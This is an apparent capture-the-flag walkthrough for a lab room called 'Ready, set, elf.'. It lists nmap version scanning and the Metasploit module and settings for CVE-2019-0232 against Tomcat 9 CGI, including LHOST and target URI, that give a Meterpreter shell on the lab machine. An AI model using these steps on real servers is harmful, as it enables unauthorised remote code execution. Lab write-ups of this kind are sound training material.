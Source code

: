 # Ready, set, elf.


- What is the version number of the web server?

	- `nmap -sV <TARGET_IP>` (Remember, if it says "host seems down", use `-Pn`, look for what it means)
	- `9.0.17`

- What CVE can be used to create a Meterpreter entry onto the machine? (Format: CVE-XXXX-XXXX)

	- `msfconsole`
	- `search tomcat 9`
	- It outputs `exploit/windows/http/tomcat_cgi_cmdlineargs  2019-04-10`. googling then...
	- `CVE-2019-0232`

- Set your Metasploit settings appropriately and gain a foothold onto the deployed machine.

	  no answer needed

	- after search, It should outputs only one exploit, anyway use `use 0` if the output is only one, or the appropriate number
	- `set RHOSTS <TARGET_IP>`
	- `set RPORT 8080`
	- `set LHOST <YOUR_IP>`
	- `set targeturi /cgi-bin/elfwhacker.bat`
	- `run` or `exploit`

- What are the contents of flag1.txt?

	- `cat flag1.txt`
	- `thm{********_***_***_*****}`

- Looking for a challenge? Try to find out some of the vulnerabilities present to escalate your privileges!

	  no answer needed


